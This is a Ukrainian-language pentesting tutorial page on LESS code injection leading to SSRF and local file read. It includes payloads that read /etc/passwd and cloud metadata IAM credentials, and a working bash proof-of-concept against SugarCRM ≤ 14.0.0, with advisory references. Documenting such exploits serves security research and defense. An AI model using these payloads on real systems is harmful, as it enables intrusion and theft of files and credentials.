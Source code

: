 ## LESS Code Injection — що призводить до SSRF & Local File Read

LESS — популярний CSS препроцесор, який додає variables, mixins, functions та потужну директиву `@import`. Під час компіляції LESS-движок **витягає ресурси, зазначені в `@import`** директивах і вбудовує ("inline") їхній вміст у результуючий CSS, коли використано опцію `(inline)`.

Коли додаток конкатенує **user-controlled input** у рядок, який пізніше парситься LESS-компілятором, атакуючий може **inject arbitrary LESS code**. Зловживаючи `@import (inline)`, атакуючий може змусити сервер отримати:

* Локальні файли через протокол `file://` (витік інформації / Local File Inclusion).
* Віддалені ресурси у внутрішніх мережах або cloud metadata services (SSRF).

Цю техніку спостерігали в реальних продуктах, таких як **SugarCRM ≤ 14.0.0** (ендпоінт `/rest/v10/css/preview`).

### Exploitation

1. Виявити параметр, який безпосередньо вставляється всередину рядка стилю, що обробляється LESS-движком (наприклад `?lm=` у SugarCRM).
2. Закрити поточну інструкцію та інжектувати нові директиви. Найпоширеніші примітиви:
* `;`  – завершує попередню декларацію.
* `}`  – закриває попередній блок (якщо потрібно).
3. Використати `@import (inline) '<URL>';` для читання довільних ресурсів.
4. За потреби інжектувати **marker** (`data:` URI) після імпорту, щоб полегшити витягнутий вміст із скомпільованого CSS.

#### Local File Read
```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
Вміст `/etc/passwd` з'явиться в HTTP-відповіді безпосередньо перед маркером `@@END@@`.

#### SSRF – Cloud Metadata
```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
#### Автоматизований PoC (приклад SugarCRM)
```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
sed -n 's/.*@@END@@\(.*\)/\1/p'
```
### Реальні випадки

| Продукт | Вразливий endpoint | Наслідки |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Неавторизований SSRF та читання локальних файлів |

### Посилання

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)
